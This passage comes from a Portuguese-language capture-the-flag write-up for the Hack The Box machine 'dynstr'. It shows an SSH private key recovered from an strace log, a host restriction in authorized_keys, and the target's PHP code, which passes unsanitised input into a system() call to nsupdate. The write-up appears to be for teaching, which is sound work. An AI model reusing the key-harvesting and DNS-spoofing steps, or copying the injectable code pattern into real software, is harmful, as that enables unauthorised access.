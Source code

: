   - Após analisar estes arquivos, notei que no `strace-C62796521.txt` temos uma chave privada em texto plano, que foi extraída e salva como `id_rsa`.

```plaintext
[...]
15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
[...]
```

  - Quando tentei utilizar esta chave para conectar via SSH com a conta `bindmgr`, recebi um erro. Ao revisar o conteúdo do arquivo `authorized_keys`, notei que temos uma instrução `from` definida, que limita a conexão utilizando a referida chave RSA a um determinado escopo de sistemas, neste caso máquinas com no subdomínio `*.infra.dyna.htb`.

```bash
www-data@dynstr:/tmp$ cat /home/bindmgr/.ssh/authorized_keys
from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
```

  - Para contornar este ponto, poderíamos alterar o arquivo hosts da máquina, o que não é possível dado privilégios atuais, ou utilizar o `nsupdate` para incluir a entrada desejada no servidor DNS, na zona `infra.dyna.htb`, o que foi tentado a partir do comando que é utilizado pela API, conforme abaixo:

```php
// Update DNS entry
$cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
```

  - Com base nisso, utilizei o seguinte comando para adicionar a nossa entrada no referido subdomínio, porém a ação foi recusada.
